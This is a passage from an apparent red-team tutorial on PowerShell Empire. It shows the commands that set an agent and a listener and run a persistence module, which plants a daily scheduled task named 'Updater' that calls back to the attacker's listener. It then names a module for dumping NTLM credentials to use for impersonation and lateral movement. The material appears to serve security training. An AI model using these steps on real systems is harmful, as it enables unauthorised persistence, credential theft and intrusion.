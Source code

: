 Now set the *Agent* to execute the module through with the command set Agent ER1AH75P and the *Lisenter* you want the persistence mechanism to connect back to with `set Listener MyListener`. This should be a *Listener* you have set up on your PowerShell Empire Server. Finally, run the `execute` command.

```go
set Agent ER1AH75P
```

```go
set Listener F-SocietyListener
```

```go
execute
```

As seen below, the module created a scheduled task on the target machine that runs daily at 09:00 and is named “Updater.”

![image.png](Screenshots/1-C2Framework/image36.webp)

### Dumping Credentials

An elevated Agent also enables you to perform post-exploitation activities like dumping credentials. These credentials can be used to impersonate other users, access sensitive files, and move laterally within the target environment.

To dump credentials in PowerShell Empire, you can use the module shown below.

```go
usemodule powershell_credentials_invoke_ntlmextract

```

![image.png](Screenshots/1-C2Framework/image37.webp)
